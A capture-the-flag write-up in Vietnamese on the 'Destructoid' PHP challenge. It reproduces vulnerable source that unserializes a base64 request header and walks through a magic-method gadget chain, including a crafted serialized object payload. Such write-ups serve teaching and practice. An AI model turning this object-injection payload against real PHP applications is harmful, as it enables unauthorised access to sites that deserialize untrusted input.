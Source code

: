 # Destructoid
`Road to php god`
+ Infomation: 
  - Link: https://destructoid.chal.imaginaryctf.org/

[image]
Mặc dù không phải là người chơi hệ tâm linh tuy nhiên nhìn vào đây mình cũng đoán ra luôn cái param `?source`.

```php
1 	<?php
2 	$printflag = false;
3	
4 	class X {
5 	   function __construct($cleanup) {
6 	       if ($cleanup === "flag") {
7 	           die("NO!\n");
8 	       }
9 	       $this->cleanup = $cleanup;
10	    }
11	
12	    function __toString() {
13	        return $this->cleanup;
14	    }
15	
16	    function __destruct() {
17	        global $printflag;
18	        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
19	            die("No!\n");
20	        }
21	        include $this->cleanup . ".php";
22	        if ($printflag) {
23	            echo $FLAG . "\n";
24	        }
25	    }
26	 }
27	
28	 class Y {
29	    function __wakeup() {
30	        echo $this->secret . "\n";
31	    }
32	
33	    function __toString() {
34	        global $printflag;
35	        $printflag = true;
36	        return (new X($this->secret))->cleanup;
37	    }
38	 }
39	
40	 if (isset($_GET['source'])) {
41	    highlight_file(__FILE__);
42	    die();
43	 }
44	 echo "ecruos? ym dnif uoy naC\n";
45	 if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
46	    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
47	 }	
```
Đề bài cho 2 class X, Y và thêm hàm `unserialize` đứng một mình tại `dòng 46` nghĩa là đây là một bài về lỗi `unserialize`. 
Sau một hồi đọc hiểu code thì mình ra được hướng khai thác như sau `class Y` trigger `__toString` -> `class X` trigger `__destruct`. Đầu tiên là phải trigger cái `__toString` trong class Y để biến `$printflag` được set giá trị `true`. `__toString` là một `magic function` mà mỗi khi object được đối xử như một `string` thì hàm này sẽ được gọi ra ví dự như này:
```php
  $a = new A();
  echo $a;
 ```
 Vì vậy để trigger được cái magic function kia mình sẽ lợi dụng echo ở `dòng 30`. Nghĩa là lúc này `$this->secret = new Y()` hay 
 ```php
 $payload = new Y();
 $a->secret = new Y();
 ```
 
 Tiếp theo để đọc được flag thì tham số truyền vào khi gọi `class X` phải là `flag` tuy nhiên ở hàm `__contructor` của `class X` (lại một magic function nữa) nếu tham số có giá trị là `flag` sẽ lập tức `die()`. Đến lúc này mình bắt đầu nghĩ làm thế nào để 1 giá trị vừa bằng lại vừa khác để thỏa mãn được cả 2 điều kiện ở `dòng 6` và `dòng 18`? Câu trả lời là `KHÔNG CÓ CÁCH NÀO` và phương án mình đưa ra lúc này là làm các nào để không cần gọi đến `__contructor`  mà chỉ gọi đến `__destruct` thôi? Câu trả lời nằm ở đây https://www.programmersought.com/article/43351307730/.

Vậy là chỉ cần sinh ra chuỗi json rồi sửa lại thông số về param để trigger thẳng `__destruct` thôi : 
```php
 $payload = new Y();
 $a->secret = new Y();
 $a->secret->secret = new X('flag');
 // O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":2:{s:7:"cleanup";s:4:"flag";}}}
 ```
 Tuy nhiên chỉ thế này thôi là chưa đủ khi dựng lại môi trường test trên máy local mình nhận ra là biến `$printflag` không hề được set giá trị `true` nên mình đã thử gọi thêm class Y một lần nữa và wala 
 ![image](https://user-images.githubusercontent.com/36907708/127254550-7923b05a-e292-4d47-a5fb-7ace757a31f4.png)
